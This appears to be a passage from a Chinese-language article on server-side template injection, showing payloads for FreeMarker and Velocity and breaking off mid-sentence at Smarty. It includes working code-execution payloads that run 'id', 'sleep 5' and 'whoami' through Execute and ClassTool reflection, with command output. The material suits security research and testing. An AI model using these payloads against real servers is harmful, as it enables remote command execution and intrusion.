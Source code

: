 即可，但是越来越多的模板会提供安全措施（比方说沙箱，过滤）来保证安全性，因此开发模板注入后门越来越难了。

#### 五、案例

##### FreeMarker

文档地址：https://freemarker.apache.org/docs/app_faq.html#faq_template_uploading_security

FreeMaker 是 Java 下最受欢迎的模板引擎。用户可以通过实现 TemplateModel 来用 new 创建任意 Java 对象。

```java
public class Execute
implements TemplateMethodModel
/*给予FreeMaker执行命令权限，并将输入内联到模板里*/
```

payload

```smarty
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
uid=119(tomcat7) gid=127(tomcat7) groups=127(tomcat7)
```

##### Velocity

Velocity 同样是一款备受欢迎的模板语言。然而它没有默认变量列表和安全问题页面帮助我们构建 payload。

百度一下：ClassTool：在模板中实现Java的反射，默认参数：$key

这里有几个可利用的方法和属性：

```
$class.inspect(class/object/string)：返回正在审查类或对象的ClassTool实例
$class.type：返回被审查的类
```

换句话说，我们可以通过这两个类获得任意对象信息。再利用目标的Runtime.exec()执行任意命令嗯。通过如下模板，我们可以验证这一点：

```jsp
$class.inspect("java.lang.Runtime").type.getRuntime().exec("sleep 5").waitFor() //延迟了5秒
```

得到 shell 命令输出有点麻烦：

```jsp
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
//输出 tomcat7
```

##### Smarty

Smarty 是一款 PHP 的模板语言。它使用安全模式来执行不信任的模板。它只运行 PHP 白名单里的函数，因此我们不能直接调用 system()。然而我们可以从模板已有的类中进行任意调用。而文档表示我们可以通过 smarty 来获取许多环境变量（比如当前变量的位置 $SCRIPT_NAME)。后面，我们又发现了 getStreamVariable:
